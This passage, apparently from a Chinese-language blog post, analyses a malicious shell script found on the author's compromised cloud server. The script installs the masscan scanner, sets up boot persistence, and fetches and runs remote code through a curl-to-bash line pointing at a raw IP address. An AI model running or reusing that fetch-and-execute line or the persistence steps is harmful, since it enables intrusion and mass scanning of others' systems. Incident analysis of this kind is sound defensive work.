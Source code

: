> if \[-x "$(command -v yum)" \]; then
> 
> yum update -y
> 
> yum install -y epel-release
> 
> yum update -y
> 
> yum install -y git iptables make gcc redis libpcap libpcap-devel
> 
> yum install -y wget curl
> 
> fi
> 
> sleep 1
> 
> curl -sL -o x1.tar.gz https://github.com/robertdavidgraham/masscan/archive/1.0.4.tar.gz
> 
> sleep 1
> 
> \[-f x1.tar.gz\] && tar zxf x1.tar.gz && cd masscan-1.0.4 && make && make install && cd .. && rm -rf masscan-1.0.4
> 
> fi
> 
> sleep 3 && rm -rf .watch
> 
> bash -c 'curl -fsSL 159.89.190.243/rsh.php|bash' 2>/dev/null

**这段脚本的代码比较长，但主要的功能有 4 个：**

> 1，下载远程代码到本地，添加执行权限，chmod u+x。  
> 2，修改 rc.local，让本地代码开机自动执行。  
> 3，下载 github 上的开源扫描器代码，并安装相关的依赖软件，也就是我上面的 messages 里看到的记录。  
> 4，下载第三个脚本，并且执行。

**我去 github 上看了下这个开源代码，简直吊炸天。**

> MASSCAN: Mass IP port scanner  
> This is the fastest Internet port scanner. It can scan the entire Internet in under 6 minutes, > transmitting 10 million packets per second.
> 
> It produces results similar to nmap, the most famous port scanner. Internally, it operates more > like scanrand, unicornscan, and ZMap, using asynchronous transmission. The major difference is > that it's faster than these other scanners. In addition, it's more flexible, allowing arbitrary > address ranges and port ranges.
> 
> NOTE: masscan uses a custom TCP/IP stack. Anything other than simple port scans will cause  conflict with the local TCP/IP stack. This means you need to either use the -S option to use a separate IP address, or configure your operating system to firewall the ports that masscan uses.

transmitting 10 million packets per second(每秒发送 1000 万个数据包)，比 nmap 速度还要快，这就不难理解为什么阿里云把服务器冻结了，大概看了下 readme 之后，我也没有细究，继续下载第三个脚本。
